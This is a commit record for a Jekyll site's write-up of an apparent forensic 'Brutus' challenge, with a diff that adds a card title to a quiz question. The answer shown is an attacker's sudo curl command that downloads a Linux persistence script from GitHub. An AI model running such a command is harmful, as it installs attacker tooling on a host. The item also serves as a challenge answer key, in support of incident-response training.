

Before and after one commit to Ningen820/Ningen820.github.io, a Jekyll site: the page built from _writeups/brutus.md, in a window 1280 px wide and 900 px high, scrolled down 5560 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update brutus.md

```diff
--- a/_writeups/brutus.md
+++ b/_writeups/brutus.md
@@ -126,6 +126,7 @@ cards:
       [Mar 6 06:37:24] systemd-logind[411]: Removed session 37.
 
   card8:
+    card_title: "question 08"
     question: "The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?"
     answer: "/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh"
     explanation: |
```
